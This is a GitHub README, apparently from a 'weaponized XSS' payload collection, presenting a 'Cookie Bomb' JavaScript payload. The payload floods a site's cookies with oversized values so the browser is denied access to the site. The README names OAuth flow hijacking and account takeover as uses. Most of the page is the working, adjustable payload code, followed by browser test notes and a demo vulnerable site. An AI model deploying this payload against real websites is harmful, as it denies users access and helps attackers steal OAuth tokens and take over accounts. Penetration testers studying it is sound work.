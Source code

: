 # [unauthn/authn] Cookie Bomb

<p align="justify">This payload denies access to a website or any part(s) of it, on the client side (i.e. causes a full/partial client-side Denial-of-Service (DoS) condition).</p>

<p align="justify">This is achieved by creating multiple junk cookies on the client side with very long values (each below cookie size limit - around 4KB). Once the web browser issues an HTTP request to the affected website/endpoint, along with these cookies, the web server rejects it and responds with the <code>431 Request Header Fields Too Large</code> HTTP status code. Effectively, this denies the web browser access to the requested resource (i.e. causes a DoS condition; client side only).</p>

<p align="justify">The DoS condition persists as long as the junk cookies are stored on the client side. Once the web browser's cache is cleared, the affected resource is accessible again from the client side.</p>

Typical use case scenarios:
* OAuth flow hijacking
    * idea: [leverage OAuth login to obtain OAuth token](https://medium.com/@danielbelay/day-7-drag-drop-xss-cookie-bomb-for-oauth-hijacking-a9b828cd9c54)
    * IMPACT:
        * Account Take Over (ATO)
            * CVSS-Confidentiality: MEDIUM/HIGH
            * CVSS-Integrity: MEDIUM/HIGH

## Code

```
let cookCount = 3;     // adjust, if needed
let cookLength = 3500; // adjust, if needed
let cookPath = '/';    // adjust, if needed
let cookDomain = window.document.domain; // adjust, if needed
let cookExpire = 10;   // minutes; adjust, if needed
let cookPostfix = '';
if (location.protocol == 'https:') {
  cookPostfix += ' Secure;';
}
function setCookie(inputKey, inputValue, inputPath, inputDomain, inputExpiry, inputPostfix) {
  let cookExpiry = new Date(+ new Date() + inputExpiry * 60 * 1000);
  document.cookie = inputKey + '=' + inputValue + '; path=' + inputPath + '; domain=' + inputDomain + '; expires=' + cookExpiry.toUTCString() + ';' + inputPostfix;
}
function setCookieBomb(inputCount, inputLength, inputPath, inputDomain, inputExpiry, inputPostfix) {
  let cookValue = 'A'.repeat(inputLength);
  for(let i=0; i<inputCount; i++) {
    setCookie('cookie' + i, cookValue, inputPath, inputDomain, inputExpiry, inputPostfix);
  }  
}
setCookieBomb(cookCount, cookLength, cookPath, cookDomain, cookExpire, cookPostfix);
```

## Test Environment

### Web Browsers (20250812)
* [x] Mozilla Firefox 141.0.3 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 139.0.3405.86 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com

## Screenshot

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieBomb/screenshots/cookieBomb_-_endpoint_DoS_-_1-1.png">
      <img src="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieBomb/screenshots/cookieBomb_-_endpoint_DoS_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/ae8f7205-a757-401f-8240-7b9b1002c775
